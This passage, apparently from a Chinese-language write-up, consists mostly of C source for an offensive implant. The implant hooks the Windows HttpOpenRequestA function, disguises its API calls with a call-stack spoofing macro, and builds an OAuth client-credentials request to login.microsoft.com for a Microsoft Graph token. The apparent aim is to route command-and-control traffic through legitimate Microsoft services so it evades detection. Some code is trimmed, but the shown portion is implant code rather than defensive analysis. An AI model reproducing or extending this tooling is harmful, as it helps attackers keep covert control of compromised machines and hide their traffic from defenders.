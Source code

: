 ```plain
            }

            // Close handle to request
            SPOOF( pMemAddrs->Api.net.InternetCloseHandle, 
                    pMemAddrs->Api.net.hNet, 
                    pMemAddrs->Api.net.size, 
                    hReq );
        }

        // Close handle to site
        SPOOF( pMemAddrs->Api.net.InternetCloseHandle, 
                pMemAddrs->Api.net.hNet, 
                pMemAddrs->Api.net.size, 
                hSite);
    }

    return lpResult;
};
```

在 HttpOpenRequestA\_Hook 函数中，我组装了访问令牌请求所需的标头和内容，然后调用了 "MakeWebRequest"：

```plain
SECTION( D ) HINTERNET HttpOpenRequestA_Hook( HINTERNET hInternet, 
                                               LPCSTR lpszVerb, 
                                               LPCSTR lpszObjectName, 
                                               LPCSTR lpszVersion, 
                                               LPCSTR lpszReferrer, 
                                               LPCSTR *lplpszAcceptTypes,
                                               DWORD dwFlags, DWORD_PTR dwContext )
{
    HINTERNET       hResult = INVALID_HANDLE_VALUE;
    LARGE_INTEGER   currentTime, frequency;
    PVOID           verb, uri, tempUri, headers, content, response;
    size_t          reqSize;
    int             elapsedTime;
    CHAR            size[10] = {0};
    CHAR            id[100] = {0};

    ... Trimmed for Brevity ...

            // ------------------------------------ Get Access Token ---------------------------------------

            // Define headers to be used
            headers = C_PTR ( OFFSET ( "Host: login.microsoft.com\r\nContent-Type: application/x-www-form-urlencoded" ) );

            // Allocate and assemble uri
            reqSize = pMemAddrs->Api.msvcrt.strlen(TENANT_ID) + pMemAddrs->Api.msvcrt.strlen( C_PTR ( OFFSET ( "//oauth2/v2.0/token" ) ) ) + 1;
            tempUri = pMemAddrs->Api.msvcrt.calloc(reqSize, sizeof(char));
            pMemAddrs->Api.msvcrt.sprintf(tempUri, C_PTR ( OFFSET ( "/%s/oauth2/v2.0/token" ) ), TENANT_ID);

            // Allocate and assemble content
            reqSize = pMemAddrs->Api.msvcrt.strlen(APP_CLIENT_ID) + pMemAddrs->Api.msvcrt.strlen(APP_CLIENT_SECRET) + pMemAddrs->Api.msvcrt.strlen(GRAPH_ADDRESS) + 
                pMemAddrs->Api.msvcrt.strlen( C_PTR ( OFFSET ( "grant_type=client_credentials&client_id=&client_secret=&scope=https\%3A\%2F\%2F\%2F.default" ) ) ) + 1;
            content = pMemAddrs->Api.msvcrt.calloc(reqSize, sizeof(char));
            pMemAddrs->Api.msvcrt.sprintf(content, C_PTR ( OFFSET ( "grant_type=client_credentials&client_id=%s&client_secret=%s&scope=https%%3A%%2F%%2F%s%%2F.default" ) ), APP_CLIENT_ID, APP_CLIENT_SECRET, GRAPH_ADDRESS);
```